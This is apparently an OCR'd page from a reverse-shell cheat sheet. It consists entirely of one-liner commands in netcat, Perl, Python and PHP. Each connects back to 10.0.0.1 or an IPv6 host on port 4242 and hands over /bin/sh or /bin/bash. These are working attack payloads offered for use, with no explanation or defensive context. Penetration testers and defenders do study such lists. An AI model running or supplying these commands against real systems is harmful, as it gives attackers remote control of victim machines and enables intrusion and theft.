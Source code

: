 **Netcat Traditional**
```bash
nc -e /bin/sh 10.0.0.1 4242
nc -e /bin/bash 10.0.0.1 4242
nc -c bash 10.0.0.1 4242
```

**Netcat OpenBsd**
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

**perl**
```perl
perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

**python**
- IPv4
    ```python
    export RHOST="10.0.0.1";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
    ```

    ```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
    ```

- IPv6
    ```python
    python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'
    ```

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**php**
```bash
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```
